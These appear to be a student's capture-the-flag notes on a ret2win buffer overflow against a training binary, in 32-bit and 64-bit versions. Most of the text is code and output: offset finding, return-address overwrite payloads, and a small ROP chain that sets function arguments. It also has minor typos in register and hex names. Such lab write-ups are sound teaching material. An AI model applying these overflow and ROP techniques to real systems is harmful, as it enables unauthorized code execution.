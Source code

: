 
Similar to CC 04 we need to override the return address of registrer_user to call the hacked function. We find the needed amount of padding:

![[Pasted image 20250125132655.png]]


- We make a payload with 28 bytes of padding, and then the address of hacked(). 
- From ghidra we see that we need to alter the parameters in the hacked function to get the top secret. 
![[Pasted image 20250125135420.png]]

We specify values in the payload to set the first parameter equal to 0xdeadbeef 
```
payload = 'A'*28 + '\x82\x91\x04\x08' + 'BBBB' + '\xef\xbe\xad\xde'

file = open("payload",'w')
file.write(payload)
print(payload)
```
 
And do the same with 0xc0debabe.
- then we run the program with the payload, if we look at the stack:
![[Pasted image 20250125152630.png]]
- we can see deadbeef and codebabe on our stack. 
- the comparing step we are supposed to bypass checks whats at: ebp + 8. ebp is the stack base pointer 
``` ASM
0x8049193 <hacked+17>           cmp    dword ptr [ebp + 8], 0xdeadbeef
```
- ebp is pointing to 0xffffcffc, and if we add 8 to that address we get: **0xFFFFD004**, which we see contain 0xdeadbeef. 
- The other check, checks if ebp + 0xc is equal to 0xcodebabe
```
0x804919c <hacked+26>           cmp    dword ptr [ebp + 0xc], 0xc0debabe
```
- And from the screenshot we see this is also true. 

```
└─$ ./ret2win_params < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBBﾭ޾���
This function is TOP SECRET! How did you get in here?! :O
Segmentation fault (core dumped)
```

------

#### 64bit version of the program: 
```
┌──(kali㉿windowsaids)-[~/CTF/Cryptocat/pwn/binary_exploitation_101/04-ret2win_with_params/64-bit]
└─$ file ret2win_params
ret2win_params: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c9ab2d6786356596c407f942908f9078b156d4d1, for GNU/Linux 3.2.0, not stripped
```


We can see the decompiled code is very similar:
![[Pasted image 20250125154850.png]]

- Observer the parameters has twice as many bits as the parameters in the 32 version.  

The same logic goes, we need to find the padding needed to overflow the buffer. We want our input to overwrite the RIP registry:

![[Pasted image 20250125161248.png]]

- Looking at the first 4 bytes of RSP, we find that the padding is 24. 
```
pwndbg> cyclic l daaaaaaa
Exception occurred: cyclic_cmd: No symbol "l" in current context. (<class 'pwndbg.dbg.Error'>)
For more info invoke `set exception-verbose on` and rerun the command
or debug it by yourself with `set exception-debugger on`
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
pwndbg>
```

- NOTE: Since this is a 64 bit program, we need to setup the registries before we call the hacked function.  

- To spesify the parameters when we call the function, we need to change the values of rdi (param 1) and rsi (param 2) registry. This is different from the 32bit version when we just pushed values to the stack.

The format of the payload:
```
padding + pop_rdi + 0xdeadbeef + pop_rdi_r15 + 0xc0debabe + calling_hacked()
```

- The pop_rdi just means we pop a value from the stack and save it in rdi. To find code that lets us pop_rdi we use ropper:
![[Pasted image 20250125165656.png]]
- For the pop_rsi we dont have a tool to do it directly, we also have to send something to r15.
![[Pasted image 20250125170624.png]]

So the payload is:
```
payload = 'A'*24 + '\x4b\x12\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\x49\x12\x40\x00\x00\x00\x00\x00' + '\xbe\xba\xde\xc0\xbe\xba\xde\xc0' + 'junkjunk' + '\x42\x11\x40\x00\x00\x00\x00\x00'
```

![[Pasted image 20250125171446.png]]


